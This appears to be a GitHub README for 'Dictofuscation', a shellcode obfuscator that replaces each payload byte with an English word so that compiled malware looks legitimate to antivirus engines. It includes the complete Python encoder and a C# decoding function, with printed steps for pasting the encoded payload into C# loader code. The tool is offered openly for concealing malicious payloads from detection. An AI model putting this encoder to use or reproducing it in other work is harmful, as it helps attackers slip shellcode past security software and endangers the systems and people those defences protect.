

# Code obfuscation with association dictionnary

The use of a shellcode encoder by dictionary association is in the same logic as obfuscation by IP address, by Mac address or UUID, but includes linguistic consistency. This project merges security and linguistic engineering for advanced concealment.


## Why strings

Some antiviruses may consider that the presence of English strings in the compiled data of a binary are considered as a historical indicator and reinforce its legitimacy against detection engines.
Dictionary association does not increase entropy and allows complex data encoding to be reversed.


## Execution

By default, the encoder takes a list of words from MIT, but you can also create your own.
It calculates each hexadecimal value from 0x00 to 0xFF and associates a word with it. Then, each byte of your shellcode is converted to hexadecimal and encoded with the corresponding word.
You can do the exact opposite in C# to get your shellcode.




## Source code

```python
#!/usr/bin/env python3

# Author : Processus Thief
# https://github.com/ProcessusT/Dictofuscation
# Version : 1.0

import sys
import requests
import random
import json


def main(input_file):
    # Creation du dictionnaire de correspondance
    word_site = "https://www.mit.edu/~ecprice/wordlist.10000"
    response = requests.get(word_site)
    words = response.content.splitlines()
    words = [word.decode('utf-8') for word in words]
    random.shuffle(words)
    hex_values = [f'0x{i:02x}' for i in range(256)]
    word_dict = dict(zip(hex_values, words[:256]))
    dict_items = [f'{{ "{word}", "{hex_val}" }}' for word, hex_val in word_dict.items()]
    formatted_dict = "var wordDict = new Dictionary<string, byte>\n{\n    " + ",\n    ".join(dict_items) + "\n};"
    print("1. Copier-coller ce dictionnaire d'association dans le code C# : \n\n" + str(formatted_dict) + "\n\n")

    # Encodage du payload
    encoded_string = "string data = \""
    with open(input_file, 'rb') as f_in:
        byte = f_in.read(1)
        while byte:
            hex_value = f"0x{byte.hex()}"
            if hex_value in word_dict:
                encoded_string += word_dict[hex_value] + ' '
            byte = f_in.read(1)
    encoded_string = encoded_string.rstrip() + "\";"
    print("2. Utiliser ce payload obfusque dans votre code C# : \n\n" + str(encoded_string) + "\n\n")

    # Affichage de la fonction de decodage
    csharp_function = """
    static byte[] DecodeWordsToBytes(string data, Dictionary<string, byte> wordDict){
        var words = data.Split(new[] { ' ' }, StringSplitOptions.RemoveEmptyEntries);
        var byteList = new List<byte>();
        foreach (var word in words){
            if (wordDict.ContainsKey(word)){
                byteList.Add(wordDict[word]);
            }else{
                Console.WriteLine("[!] Error while decoding");
            }
        }
        return byteList.ToArray();
    }"""
    print("3. Copier-coller cette fonction de decodage dans le code C# : \n\n" + str(csharp_function) + "\n\n")
    


if __name__ == "__main__":
    print("##########################################")
    print("########### PAYLOAD OBFUSCATOR ###########")
    print("##########################################\n")
    if len(sys.argv) != 2:
        print("Usage: python encode.py <path_to_raw_payload_file>\n")
        sys.exit(1)
    
    file_path = sys.argv[1]
    main(file_path)
```


## References



